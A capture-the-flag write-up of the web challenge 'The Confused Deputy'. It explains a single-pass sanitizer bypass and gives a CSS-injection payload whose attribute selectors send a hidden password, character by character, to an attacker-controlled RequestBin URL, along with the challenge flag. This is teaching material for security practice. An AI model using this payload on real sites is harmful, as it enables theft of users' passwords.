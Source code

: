 ```yaml
---
layout: post
title: "The Confused Deputy"
author: "shreyas-sriram"
tags: ['Web']
---
```


Wow that's a pretty color! Don't you think? Pick your favourite and show it to the admin on /admin.

[http://chall.csivit.com:30256](http://chall.csivit.com:30256)

## Solution
* There are two input field :
	* `hidden input` with `value=<password>`
	* `visible input` where users can enter a color
* The entered input colors are sanitized and gets reflected in the `<style>` tag<br/>
```javascript
<style> .show {background-image: none; background-color: ${sanitized(input)}}</style>

function sanitized(content) {
        content = content.replace('<', '').replace('>', '');
        return content;
    }
```
* The sanitization is done only once, so it can be bypassed by using the following payload<br/>
```
<><malicious-payload>
```
* The santization removes `<>` and returns `<malicious-payload>`
* This is a case of `DOM-based XSS`, but XSS didn't execute on trying various payloads
* Then trying `CSS Injection` and using a RequestBinURL, it is possible to extract the password from the `hidden input` field

**Payload**
```
#000000;} input[type="password"][value^="<value-x>"] {background-image: url('https://<RequestBinURL>/<value-x>');
```

**Payload Explanation**
* `#000000;}` :
	* Closes the existing style element
* `input[type="password"][value^="<value-x>"] {background-image: url('https://<RequestBinURL>/<value-x>');` :
	* Creates a new style element for `input` tag whose `type=password` and `value` begins with `<value-x>`
* If the conditions satisfy, then a request is sent to the mentioned URL - `https://<RequestBinURL>/<value-x>`
* The entire password can be enumerated using the explained method
* Use `Burp Intruder` or write a script to automate the process


## Flag
```
csictf{cssxss}
```

